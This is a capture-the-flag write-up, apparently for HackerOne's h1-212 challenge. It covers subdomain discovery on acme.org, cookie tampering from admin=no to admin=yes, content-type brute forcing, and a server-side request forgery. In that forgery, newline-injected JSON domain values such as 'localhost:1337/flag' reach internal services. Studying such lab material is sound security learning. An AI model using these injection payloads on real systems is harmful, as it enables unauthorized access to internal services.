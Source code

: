 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there (using my tool https://github.com/chamli/CyberCrowl)

then i used virtual-host-discovery tool to get all virtual host there 

(i know that jobertabma make this task so that's why i checked his github :D and yeah it was there ) 

![image](https://user-images.githubusercontent.com/7364615/33027283-f949a3ae-ce12-11e7-98f5-222dcb97319e.png)

![image](https://user-images.githubusercontent.com/7364615/33027406-4acf6b14-ce13-11e7-9310-770652435ca4.png)

```
Found: www.acme.org (200)
Found: dev.acme.org (200)
Found: local (200)
Found: localhost (200)
Found: status.acme.org (200)
Found: status (200)
Found: staging.acme.org (200)
Found: staging (200)
Found: development (200)
Found: development.acme.org (200)
Found: uat (200)
Found: uat.acme.org (200)
Found: acme.org (200)
Found: beta (200)
Found: beta.acme.org (200)
Found: secure (200)
Found: secure.acme.org (200)
Found: mobile (200)
Found: mobile.acme.org (200)
Found: 127.0.0.1 (200)
Found: m.acme.org (200)
Found: m (200)
Found: admin (200)
Found: admin.acme.org (200)
Found: old (200)
Found: old.acme.org (200)
Found: v1.acme.org (200)
Found: v1 (200)
Found: v2.acme.org (200)
Found: v2 (200)
Found: v3.acme.org (200)
Found: v3 (200)
Found: alpha (200)
Found: alpha.acme.org (200)
```
so as description said : admin.acme.org this is the one :D 
(An engineer of acme.org launched a new server for a new admin panel)

After that i st
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 after make admin=yes and change GET to POST

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that "application/json" is the one :D 

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

So by send random data we get second error 'domain' required

By start send random domain "www.test.com" make it work and get another error :D  

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```
so when domain is valid we get data base64 (Easy way to get that valid domain site:212.*.com) 

![image](https://user-images.githubusercontent.com/7364615/33027790-629d5b6a-ce14-11e7-824e-3a79ac055f67.png)

Then send request 

![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

Its' look like SSRF here guys :D 

So just need to bypass .com and 212 containe , if we send domain with 212.*.com we can break all check 

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !! (\n) 

In this case it will make three request "localhost","212.test.com","212.hahahah.com"
```
{"domain":"localhost\n212.test.com\n212.hahahah.com"}  
```

Then when i start look for flag , i didnt get the point , Because i get always Null data for the first request of localhost

```
{"domain":"localhost/flag\n212.test.com"}  
```

And then make brute force wusing Burp Suite ,But before the that get end i check 1337 as its for "leet" :D 

And Yeah found port 1337 open :D 
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
